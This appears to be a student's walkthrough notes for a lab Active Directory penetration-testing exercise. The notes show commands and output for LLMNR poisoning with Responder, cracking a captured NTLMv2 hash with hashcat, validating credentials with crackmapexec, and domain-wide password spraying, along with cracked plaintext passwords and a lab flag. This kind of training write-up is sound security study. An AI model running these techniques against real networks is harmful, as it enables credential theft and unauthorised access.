

# Notes

**10.129.83.248 Enumeration** 

```bash
└──╼ $ip addr
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: ens192: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:8a:bf:db brd ff:ff:ff:ff:ff:ff
    altname enp11s0
    inet 10.129.83.248/16 brd 10.129.255.255 scope global dynamic noprefixroute ens192
       valid_lft 2725sec preferred_lft 2725sec
    inet6 dead:beef::a478:81e3:acf4:eb4a/64 scope global dynamic noprefixroute
       valid_lft 86401sec preferred_lft 14401sec
    inet6 fe80::555:c3aa:9d05:c1f6/64 scope link noprefixroute
       valid_lft forever preferred_lft forever
3: ens224: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:8a:85:4f brd ff:ff:ff:ff:ff:ff
    altname enp19s0
    inet 172.16.7.240/23 brd 172.16.7.255 scope global noprefixroute ens224
       valid_lft forever preferred_lft forever
    inet6 fe80::2957:2d31:5225:229a/64 scope link noprefixroute
       valid_lft forever preferred_lft forever
4: docker0: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc noqueue state DOWN group default
    link/ether 02:42:f3:a2:89:64 brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
       valid_lft forever preferred_lft forever
```

```bash
└──╼ $route -n
Kernel IP routing table
Destination     Gateway         Genmask         Flags Metric Ref    Use Iface
0.0.0.0         10.129.0.1      0.0.0.0         UG    100    0        0 ens192
0.0.0.0         172.16.7.1      0.0.0.0         UG    101    0        0 ens224
10.129.0.0      0.0.0.0         255.255.0.0     U     100    0        0 ens192
172.16.6.0      0.0.0.0         255.255.254.0   U     101    0        0 ens224
172.17.0.0      0.0.0.0         255.255.0.0     U     0      0        0 docker0
```

```bash
└──╼ $cat /etc/resolv.conf
# Dynamic resolv.conf(5) file for glibc resolver(3) generated by resolvconf(8)
#     DO NOT EDIT THIS FILE BY HAND -- YOUR CHANGES WILL BE OVERWRITTEN
# 127.0.0.53 is the systemd-resolved stub resolver.
# run "resolvectl status" to see details about the actual nameservers.

nameserver 1.1.1.1
nameserver 8.8.8.8
```

**Ran nmap to do host and port scanning**

Detailed results here:
* [host scan](./nmap_ping_sweep.txt)
* [port scan](./nmap_top20.txt)

Here's some notes:

| Host      | IP           | Open Ports          | Notes                                              |
| --------- | ------------ | ------------------- | -------------------------------------------------- |
| DC01      | 172.16.7.3   | 53, 135, 139, 445   | SMB signing required                               |
| MS01      | 172.16.7.50  | 135, 139, 445, 3389 | SMB signing not required ⚠️                        |
| SQL01     | 172.16.7.60  | 135, 139, 445, 1433 | MSSQL 2019 SQLEXPRESS; SMB signing not required ⚠️ |
| Parrot VM | 172.16.7.240 | 22, 3389            | Our attack host                                    |


**Updated /etc/hosts**

```bash
sudo tee -a /etc/hosts <<EOF
172.16.7.3    DC01.INLANEFREIGHT.LOCAL DC01 inlanefreight.local
172.16.7.50   MS01.INLANEFREIGHT.LOCAL MS01
172.16.7.60   SQL01.INLANEFREIGHT.LOCAL SQL01
EOF
```

**Ran responder**

```bash
sudo responder -I ens224 -wrfv
```

Got a domain user account: AB920

```bash
AB920::INLANEFREIGHT:57a56b0069c46ab3:8612280B4C1F49D32EA4BFC2F78C508D:01010000000000000036A746F4D6DC01217CBDCD78BB680E000000000200080059005A003200390001001E00570049004E002D004200440034004F004D00470058004F004F004C00410004003400570049004E002D004200440034004F004D00470058004F004F004C0041002E0059005A00320039002E004C004F00430041004C000300140059005A00320039002E004C004F00430041004C000500140059005A00320039002E004C004F00430041004C00070008000036A746F4D6DC0106000400020000000800300030000000000000000000000000200000E3AC3CFF10FD9940872B1A00001805D6ED23A29C57F39B56D3DA1465863303FB0A0010000000000000000000000000000000000009002E0063006900660073002F0049004E004C0041004E0045004600520049004700480054002E004C004F00430041004C00000000000000000000000000
```

Cracked hash using `rockyou` wordlist.

```bash
└──╼ $hashcat -m 5600 ab920_hash.txt --show
AB920::INLANEFREIGHT:57a56b0069c46ab3:8612280b4c1f49d32ea4bfc2f78c508d:01010000000000000036a746f4d6dc01217cbdcd78bb680e000000000200080059005a003200390001001e00570049004e002d004200440034004f004d00470058004f004f004c00410004003400570049004e002d004200440034004f004d00470058004f004f004c0041002e0059005a00320039002e004c004f00430041004c000300140059005a00320039002e004c004f00430041004c000500140059005a00320039002e004c004f00430041004c00070008000036a746f4d6dc0106000400020000000800300030000000000000000000000000200000e3ac3cff10fd9940872b1a00001805d6ed23a29c57f39b56d3da1465863303fb0a0010000000000000000000000000000000000009002e0063006900660073002f0049004e004c0041004e0045004600520049004700480054002e004c004f00430041004c00000000000000000000000000:weasal
```

**Confirmed AB920 creds work for MS01**


```bash
┌─[htb-student@skills-par01]─[~/raw_data]
└──╼ $crackmapexec smb MS01 -u AB920 -p weasal
[*] First time use detected
[*] Creating home directory structure
[*] Creating default workspace
[*] Initializing LDAP protocol database
[*] Initializing MSSQL protocol database
[*] Initializing SMB protocol database
[*] Initializing SSH protocol database
[*] Initializing WINRM protocol database
[*] Copying default configuration file
[*] Generating SSL certificate
SMB         172.16.7.50     445    MS01             [*] Windows 10.0 Build 17763 x64 (name:MS01) (domain:INLANEFREIGHT.LOCAL) (signing:False) (SMBv1:False)
SMB         172.16.7.50     445    MS01             [+] INLANEFREIGHT.LOCAL\AB920:weasal
```

**Was able RDP to MS01 with AB920 creds**



**Got flag from MS01**

```powershell
C:\Users\AB920>cd c:\

c:\>dir
 Volume in drive C has no label.
 Volume Serial Number is B8B3-0D72

 Directory of c:\

04/11/2022  10:19 PM                24 flag.txt
02/25/2022  11:20 AM    <DIR>          PerfLogs
04/11/2022  10:00 PM    <DIR>          Program Files
04/01/2022  10:11 AM    <DIR>          Program Files (x86)
04/20/2022  06:51 AM    <DIR>          Users
04/20/2022  05:31 AM    <DIR>          Windows
               1 File(s)             24 bytes
               5 Dir(s)  18,935,783,424 bytes free

c:\>type flag.txt
aud1t_gr0up_m3mbersh1ps!
```

Searched for [creds](./cred_file_hunt.txt) and [connection strings](./connection_string_search.txt).

**Did DomainPasswordSpay**

Found creds: `BR086:Welcome1`

```powershell
PS C:\Users\AB920\Desktop> Import-Module .\DomainPasswordSpray.ps1;
PS C:\Users\AB920\Desktop> Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_welcome1_ms01.txt
[*] Current domain is compatible with Fine-Grained Password Policy.
[*] Now creating a list of users to spray...
[*] There appears to be no lockout policy.
[*] Removing disabled users from list.
[*] There are 2899 total users found.
[*] Removing users within 1 attempt of locking out from list.
[*] Created a userlist containing 2899 users gathered from the current user's domain
[*] The domain password policy observation window is set to 30 minutes.
[*] Setting a 30 minute wait in between sprays.

Confirm Password Spray
Are you sure you want to perform a password spray against 2899 accounts?
[Y] Yes  [N] No  [?] Help (default is "Y"):
[*] Password spraying has begun with  1  passwords
[*] This might take a while depending on the total number of users
[*] Now trying password Welcome1 against 2899 users. Current time is 11:29 PM
[*] SUCCESS! User:BR086 Password:Welcome1
[*] Password spraying is complete
[*] Any passwords that were successfully sprayed have been output to spray_welcome1_ms01.txt
```

## Enumerating BR086 on MS01

```
C:\Users\BR086>whoami /all

USER INFORMATION
----------------

User Name           SID
=================== =============================================
inlanefreight\br086 S-1-5-21-3327542485-274640656-2609762496-4612


GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                           Attributes
========================================== ================ ============================================= ==================================================
Everyone                                   Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Desktop Users               Alias            S-1-5-32-555                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\REMOTE INTERACTIVE LOGON      Well-known group S-1-5-14                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE                   Well-known group S-1-5-4                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                      Mandatory group, Enabled by default, Enabled group
LOCAL                                      Well-known group S-1-2-0                                       Mandatory group, Enabled by default, Enabled group
INLANEFREIGHT\IT-Managers                  Group            S-1-5-21-3327542485-274640656-2609762496-1618 Mandatory group, Enabled by default, Enabled group
Authentication authority asserted identity Well-known group S-1-18-1                                      Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

```
C:\Users\BR086>net user BR086 /domain
The request will be processed at a domain controller for domain INLANEFREIGHT.LOCAL.

User name                    BR086
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            4/1/2022 10:03:25 AM
Password expires             Never
Password changeable          4/1/2022 10:03:25 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   5/1/2026 5:12:01 AM

Logon hours allowed          All

Local Group Memberships
Global Group memberships     *IT-Managers          *Domain Users
The command completed successfully.
```

No admininstrator rights

```
C:\Users\BR086>cd c:\Users\Administrator
Access is denied.
```